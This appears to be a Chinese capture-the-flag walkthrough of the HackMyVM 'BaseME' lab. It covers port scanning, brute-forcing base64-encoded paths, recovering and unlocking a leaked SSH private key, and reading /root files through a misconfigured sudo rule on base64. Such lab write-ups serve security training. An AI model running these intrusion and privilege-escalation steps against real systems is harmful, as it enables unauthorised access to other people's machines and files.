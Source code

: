 ```yaml
---
{"dg-publish":true,"tags":["HMV","base64"],"难度":"⭐️⭐️","作者":"sml","permalink":"/24-渗透/HMV/8.BaseME/","dgPassFrontmatter":true,"noteIcon":"","created":"2024-11-22T19:13:18.854+08:00","updated":"2024-11-25T01:05:54.530+08:00"}
---
```




## 1. 基本信息^toc

- [[24-渗透/HMV/8.BaseME#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/8.BaseME#2. 信息收集\|2. 信息收集]]
- [[24-渗透/HMV/8.BaseME#3. BASE64编码目录爆破\|3. BASE64编码目录爆破]]
- [[24-渗透/HMV/8.BaseME#4. 提权\|4. 提权]]

```
靶机链接：https://hackmyvm.eu/machines/machine.php?vm=BaseME
```


```
作者：sml
```

```
难度：⭐️⭐️
```


```
知识点：base64编码扫描、linuxbase64编码自带换行符、
```
## 2. 信息收集

端口扫描

```Bash
──(root㉿kali)-[/home/kali]
└─# nmap -sS 192.168.9.10  -p 1-65535 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-05 21:25 CST
Nmap scan report for 192.168.9.10
Host is up (0.00038s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:7C:3B:62 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 8.23 seconds
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/8.BaseME.001.png)

上面是一串base64编码的字符串

解码得到

```Bash
ALL, absolutely ALL that you need is in BASE64.
Including the password that you need :)
Remember, BASE64 has the answer to all your questions.
-lucas
```
提示我们我们想要的都可以通过base64获取

尝试爆破目录发现没有结果。猜测可能是需要base64加密

## 3. BASE64编码目录爆破

直接对字典进行逐行base64加密

```Bash
import base64

def encode\_file\_line\_by\_line(*input\_file*, *output\_file*):
    with open(*input\_file*, 'r', *encoding*='utf-8') as infile, open(*output\_file*, 'w', *encoding*='utf-8') as outfile:
        for line in infile:
            *# 直接对整行（包括换行符）进行 Base64 编码*
            encoded\_line = base64.b64encode(line.encode()).decode()
            *# 将编码后的内容写入输出文件，并添加换行符*
            outfile.write(encoded\_line + '\n')

*# 使用示例*
input\_file = 'dicc.txt'  *# 输入文件路径*
output\_file = 'base64\_dicc.txt'  *# 输出文件路径*
encode\_file\_line\_by\_line(input\_file, output\_file)
```
然后爆破

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/8.BaseME.002.png)

```Bash
/aWRfcnNhCg==
/cm9ib3RzLnR4dAo=
```
获取了私钥

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/8.BaseME.002.png)

```Bash
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABBTxe8YUL
BtzfftAdPgp8YZAAAAEAAAAAEAAAEXAAAAB3NzaC1yc2EAAAADAQABAAABAQCZCXvEPnO1
cbhxqctBEcBDZjqrFfolwVKmpBgY07M3CK7pO10UgBsLyYwAzJEw4e6YgPNSyCDWFaNTKG
07jgcgrggre8ePCMNFBCAGaYHmLrFIsKDCLI4NE54t58IUHeXCZz72xTobL/ptLk26RBnh
7bHG1JjGlxOkO6m+1oFNLtNuD2QPl8sbZtEzX4S9nNZ/dpyRpMfmB73rN3yyIylevVDEyv
f7CZ7oRO46uDgFPy5VzkndCeJF2YtZBXf5gjc2fajMXvq+b8ol8RZZ6jHXAhiblBXwpAm4
vLYfxzI27BZFnoteBnbdzwSL5apBF5gYWJAHKj/J6MhDj1GKAFc1AAAD0N9UDTcUxwMt5X
YFIZK8ieBL0NOuwocdgbUuktC21SdnSy6ocW3imM+3mzWjPdoBK/Ho339uPmBWI5sbMrpK
xkZMnl+rcTbgz4swv8gNuKhUc7wTgtrNX+PNMdIALNpsxYLt/l56GK8R4J8fLIU5+MojRs
+1NrYs8J4rnO1qWNoJRZoDlAaYqBV95cXoAEkwUHVustfgxUtrYKp+YPFIgx8okMjJgnbi
NNW3TzxluNi5oUhalH2DJ2khKDGQUi9ROFcsEXeJXt3lgpZZt1hrQDA1o8jTXeS4+dW7nZ
zjf3p0M77b/NvcZE+oXYQ1g5Xp1QSOSbj+tlmw54L7Eqb1UhZgnQ7ZsKCoaY9SuAcqm3E0
IJh+I+Zv1egSMS/DOHIxO3psQkciLjkpa+GtwQMl1ZAJHQaB6q70JJcBCfVsykdY52LKDI
pxZYpLZmyDx8TTaA8JOmvGpfNZkMU4I0i5/ZT65SRFJ1NlBCNwcwtOl9k4PW5LVxNsGRCJ
MJr8k5Ac0CX03fXESpmsUUVS+/Dj/hntHw89dO8HcqqIUEpeEbfTWLvax0CiSh3KjSceJp
+8gUyDGvCkcyVneUQjmmrRswRhTNxxKRBZsekGwHpo8hDYbUEFZqzzLAQbBIAdrl1tt7mV
tVBrmpM6CwJdzYEl21FaK8jvdyCwPr5HUgtuxrSpLvndcnwPaxJWGi4P471DDZeRYDGcWh
i6bICrLQgeJlHaEUmrQC5Rdv03zwI9U8DXUZ/OHb40PL8MXqBtU/b6CEU9JuzJpBrKZ+k+
tSn7hr8hppT2tUSxDvC+USMmw/WDfakjfHpoNwh7Pt5i0cwwpkXFQxJPvR0bLxvXZn+3xw
N7bw45FhBZCsHCAbV2+hVsP0lyxCQOj7yGkBja87S1e0q6WZjjB4SprenHkO7tg5Q0HsuM
Aif/02HHzWG+CR/IGlFsNtq1vylt2x+Y/091vCkROBDawjHz/8ogy2Fzg8JYTeoLkHwDGQ
O+TowA10RATek6ZEIxh6SmtDG/V5zeWCuEmK4sRT3q1FSvpB1/H+FxsGCoPIg8FzciGCh2
TLuskcXiagns9N1RLOnlHhiZd8RZA0Zg7oZIaBvaZnhZYGycpAJpWKebjrtokLYuMfXRLl
3/SAeUl72EA3m1DInxsPguFuk00roMc77N6erY7tjOZLVYPoSiygDR1A7f3zYz+0iFI4rL
ND8ikgmQvF6hrwwJBrp/0xKEaMTCKLvyyZ3eDSdBDPrkThhFwrPpI6+Ex8RvcWI6bTJAWJ
LdmmRXUS/DtO+69/aidvxGAYob+1M=
-----END OPENSSH PRIVATE KEY-----
```
ssh连上去

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/8.BaseME.003.png)

提示需要私钥密码

猜测就是开始下面那句话的Base64编码

```Bash
iloveyou
youloveyou
shelovesyou
helovesyou
weloveyou
theyhatesme
```
这里直接逐行Base64加密是不行的，后面要加上一个回车才是对的（因为他这里面的编码都是linux里面进行的。linux默认对字符串进行base64编码后面是带有换行符的）

第一个加密就是对的

```Bash
iloveyou 》aWxvdmV5b3UK
```
然后就能连接上来了

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/8.BaseME.004.png)

## 4. 提权

```Bash
lucas@baseme:~$ find / -perm -4000 2>/dev/null
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/mount
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/chsh
/usr/bin/umount
/usr/bin/gpasswd
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
lucas@baseme:~$ sudo -l
Matching Defaults entries for lucas on baseme:
    env\_reset, mail\_badpass, secure\_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lucas may run the following commands on baseme:
    (ALL) NOPASSWD: /usr/bin/base64
lucas@baseme:~$ 
```


```Bash
sudo base64 "/root/root.txt" |base64 --decode
```
这里应该读取私钥然后连接

我这里直接偷懒读取flag了


